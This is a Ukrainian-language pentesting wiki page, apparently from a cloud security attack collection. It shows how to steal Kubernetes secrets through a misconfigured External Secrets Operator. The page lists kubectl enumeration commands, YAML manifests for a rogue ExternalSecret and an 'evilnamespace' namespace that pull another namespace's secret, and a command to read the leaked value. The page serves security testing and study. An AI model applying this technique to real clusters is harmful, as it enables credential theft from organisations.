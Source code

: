 # External Secret Operator

**Оригінальний автор цієї сторінки** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ця сторінка надає кілька вказівок щодо того, як ви можете вкрасти секрети з неправильно налаштованого ESO або програми, яка використовує ESO для синхронізації своїх секретів.

## Відмова від відповідальності

Техніка, показана нижче, може працювати лише за певних обставин. Наприклад, це залежить від вимог, необхідних для дозволу на синхронізацію секрету в просторі імен, яким ви володієте / який ви скомпрометували. Вам потрібно розібратися в цьому самостійно.

## Попередні вимоги

1. Позиція в кластері kubernetes / openshift з адміністративними привілеями на просторі імен
2. Доступ на читання принаймні до ExternalSecret на рівні кластера
3. Визначити, чи є якісь необхідні мітки / анотації або членство в групі, які дозволяють ESO синхронізувати ваш секрет. Якщо вам пощастить, ви зможете вільно вкрасти будь-який визначений секрет.

### Збір інформації про існуючий ClusterSecretStore

Припустимо, що у вас є користувач, який має достатні права для читання цього ресурсу; почніть з переліку існуючих _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Припустимо, ви знайшли ClusterSecretStore з назвою _**mystore**_. Продовжте, перераховуючи його асоційовані externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Цей ресурс має область видимості простору імен, тому, якщо ви ще не знаєте, в якому просторі імен шукати, додайте опцію -A, щоб переглянути всі простори імен._

Ви повинні отримати список визначених externalsecret. Припустимо, ви знайшли об'єкт externalsecret під назвою _**mysecret**_, визначений і використаний простором імен _**mynamespace**_. Зберіть трохи більше інформації про те, який тип секрету він містить.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Збирання частин

Звідси ви можете отримати назву одного або кількох секретів (таких, як визначено в ресурсі Secret). Ви отримаєте вихідні дані, подібні до:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Так що ми отримали:

- Ім'я ClusterSecretStore
- Ім'я ExternalSecret
- Ім'я секрету

Тепер, коли у нас є все необхідне, ви можете створити ExternalSecret (і, зрештою, виправити/створити новий Namespace, щоб відповідати вимогам, необхідним для синхронізації вашого нового секрету):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Після кількох хвилин, якщо умови синхронізації були виконані, ви повинні мати можливість переглянути витік секрету у вашому просторі імен.
```sh
kubectl get secret leaked_secret -o yaml
```
## Посилання

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}

